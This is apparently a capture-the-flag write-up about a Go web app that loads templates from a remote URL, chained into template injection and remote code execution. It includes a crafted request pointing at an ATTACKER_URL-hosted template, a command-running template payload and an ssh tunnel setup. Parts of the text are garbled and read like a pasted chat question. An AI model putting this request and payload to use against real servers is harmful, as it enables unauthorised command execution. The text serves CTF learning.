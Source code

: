 # RTI > SSTI > RCE 

## Website 

<img src= /renderquest.png>

## Description

So, the functionality of the seems to load and render templates either locally or remotely, depending on the ?use_remote= parameter. This leads me to want to check for SSTI vulnerability from the go file I gave you lied in the ability to load templates from any url that would be executed on the backend. I was able to set up a test.go file on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded my go file it executed the specified commands on the server. Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injection (SSTI) vulnerability in a web application. It sends a GET request to a specified vulnerable URL, loading and executing an attacker-controlled template on the target server, resulting in remote code execution.

## More Information

[Host Header Attacks](https://portswigger.net/web-security/host-header)

